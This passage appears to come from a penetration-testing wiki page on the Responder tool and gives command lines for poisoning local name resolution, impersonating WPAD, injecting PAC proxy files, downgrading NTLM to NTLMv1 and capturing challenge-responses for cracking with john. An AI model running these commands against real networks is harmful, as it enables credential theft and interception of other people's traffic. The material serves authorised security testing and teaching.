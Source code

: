 ![](../../.gitbook/assets/image%20%28235%29.png)

An interesting technique is to use responder to downgrade the NTLM authentication when possible. This will allow to **capture NTLMv1 challenges and responses** instead of NTLMv2 that can be **easily cracked** [**following this guide**](../../windows/ntlm/#ntlmv1-attack)**.**

```bash
#Remember that in order to crack NTLMv1 you need to set Responder challenge to "1122334455667788"
responder -I <Iface> --lm #Downgrade NTLM authntication if possible
```

By **default**, the **WPAD impersonation won't be executed**, but you can execute it doing:

```bash
responder -I <Iface> --wpad
```

Responder can also send **fake DNS responses** \(so the IP of the attacker is resolved\) and can inject **PAC files** so the victim will get the IP of the **attacker as a proxy**.

```bash
responder.py -I <interface> -w On #If the computer detects the LAN configuration automatically, this will impersonate it
```

You can also **resolve NetBIOS** requests with **your IP**. And create an **authentication proxy**:

```bash
responder.py -I <interface> -rPv
```

You won't be able to intercept NTLM hashes \(normally\), but you can easily grab some **NTLM challenges and responses** that you can **crack** using for example _**john**_ option `--format=netntlmv2`.
